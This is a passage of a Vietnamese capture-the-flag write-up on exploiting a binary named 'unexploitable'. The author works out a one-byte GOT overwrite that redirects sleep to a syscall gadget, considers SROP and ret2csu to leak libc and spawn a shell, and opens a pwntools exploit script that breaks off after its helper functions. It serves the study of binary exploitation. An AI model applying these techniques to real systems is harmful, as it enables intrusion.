 - và ta cần ngẫm nghĩ lại 1 chút , GOT ở bài này có thể ghi được -> ta có thể thay đổi địa chỉ libc ở trong GOT -> thành 1 cái gì đó để có thể khai thác như syscall chẵn hạn 


- ta có thể thấy địa chỉ libc bên trong `got` có `syscall` -> ta hoàn toàn có thể overwrite got để khi thực thi `got` thì nó sẽ như 1 syscall 

![image](https://hackmd.io/_uploads/B16sUtLpke.png)

- ở đây 12 bit cuối của sleep là 680 và nó sẽ không đổi sau mỗi lần chạy , và bên trong hàm `nanosleep` có 1 thứ như vậy 

![image](https://hackmd.io/_uploads/r17MjYUpke.png)

- ta cũng có thể trừ nó đi , ở đoạn `__waitid` ta thấy được `0x7efe69c5360e` đây là 1 syscall so với địa chỉ got hiện tại `0x7efe69c53680` , với địa chỉ này ta chỉ cần overwrite 1 byte thôi , tốt hơn so với địa chỉ ở trên nên ta sẽ chọn thằng này 

- ý tưởng thì có lẽ sẽ là pivot để overwrite bytes này và dùng `srop` , sau khi check lại thì ta cũng thấy bài này có hàm `__libc_csu_init` , vậy bài này có vẻ có thể làm theo nhiều cách , ta có thể dùng `srop` hoặc dùng ret2csu để leak libc -> get shell 

![image](https://hackmd.io/_uploads/HylhiKL61x.png)


- sau 1 lúc pivot thì mình lại kẹt tiếp đoạn frame không đủ bytes giống bài ascis nên có lẽ đến lúc xài ret2csu ròi :< 

- exp của mình khá là dài bởi vì ban đầu mình muốn pivot thử và dùng `sigreturn` , tuy nhiên do số bytes không đủ chứa hết payload nên mình chuyển sang kết hợp với `csu` 



exp: 


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep
context.update(arch="amd64", os="linux")
context.log_level = 'info'

context.log_level = 'debug'
exe = context.binary = ELF('./unexploitable_patched', checksec=False)
libc = exe.libc

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
```